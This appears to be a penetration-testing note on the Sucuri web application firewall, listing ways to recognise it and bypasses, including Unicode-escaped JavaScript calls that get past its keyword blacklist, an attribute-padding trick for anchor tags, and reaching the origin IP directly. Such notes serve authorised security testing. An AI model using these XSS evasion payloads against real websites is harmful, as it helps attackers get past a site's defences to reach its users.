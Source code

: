 # Securi WAF

## Detection

- Detectability: Easy
Detection Methodology:
- Response headers may contain Sucuri or Cloudproxy keywords.
- Blocked response page contains the following text snippet:
- Access Denied - Sucuri Website Firewall text.
- Reference to https://sucuri.net/privacy-policy URL.
- Sometimes the email cloudproxy@sucuri.net.
- Contains copyright notice ;copy {year} Sucuri Inc.
- Response headers contains X-Sucuri-ID header along with normal requests.

---

## Bypasses

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```
  
  alert
  ```js
  \u0061lert(0)
  eval(\u0061lert(0))
  ```
  
  ![carbon](https://user-images.githubusercontent.com/94630001/162410201-4e9d2c42-ede6-4c98-b384-76abdf437476.png)


  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


## Help 

https://github.com/0xInfection/Awesome-WAF  
https://github.com/vincentcox/bypass-firewalls-by-DNS-history  


